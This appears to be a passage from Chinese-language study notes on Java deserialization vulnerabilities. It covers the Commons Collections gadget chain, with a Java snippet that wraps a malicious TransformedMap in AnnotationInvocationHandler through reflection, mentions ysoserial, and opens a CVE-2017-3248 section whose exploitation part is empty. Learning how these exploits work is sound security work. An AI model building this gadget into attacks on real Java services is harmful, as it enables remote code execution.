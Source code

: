 1.使用了Commons Collections这个第三方类库

2.某个可序列化的类重写了readObject()方法，并且在readObject()中对Map类型的变量进行了键值修改操作，并且这个Map变量是可控的，

而AnnotationInvocationHandler 这个类满足条件

![1526829974598](C:\Users\asus\AppData\Local\Temp\1526829974598.png)

该类存在成员变量memberVaules 而它的类型为Map<String,Object>

![1526830056992](C:\Users\asus\AppData\Local\Temp\1526830056992.png)

重写方法存在memberValue.setVaule()的操作

只要实例化一个AnnotationInvocationHandler类然后将构造好的恶意TransformedMap对象赋值给memberVaules,在java反序列化操作时，触发TransformedMap变化函数(TransformedMap.decorate)

```java
 	    Map innermap = new HashMap();
        innermap.put("value", "value");
        Map outmap = TransformedMap.decorate(innermap, null, transformerChain);
        //通过反射获得AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        //通过反射获得cls的构造函数
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        //这里需要设置Accessible为true，否则序列化失败
        ctor.setAccessible(true);
        //通过newInstance()方法实例化对象
        Object instance = ctor.newInstance(Retention.class, outmap);
        return instance;
```



#### 6.ysoserial

一个研究java反序列化的工具

其中它有8个payload

![1526887113638](C:\Users\asus\AppData\Local\Temp\1526887113638.png)



关于这个工具及其payloads，wooyun有详细的介绍

[反序列化工具ysoserial分析]: https://wps2015.org/drops/drops/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%B7%A5%E5%85%B7ysoserial%E5%88%86%E6%9E%90.html







#### CVE-2017-3248

##### 产生原因：

RMI机制缺陷，使用JRMP协议达到执行任意反序列化payload的目的

##### 利用：


[sczyh30]: https://www.sczyh30.com/posts/Java/java-reflection-1/
[Seebug]: https://paper.seebug.org/584/
[腾讯安全应急响应中心]: https://security.tencent.com/index.php/blog/msg/97
[漏洞盒子]: https://www.vulbox.com/knowledge/detail/?id=11
[sczyh30]: https://www.sczyh30.com/posts/Java/java-reflection-1/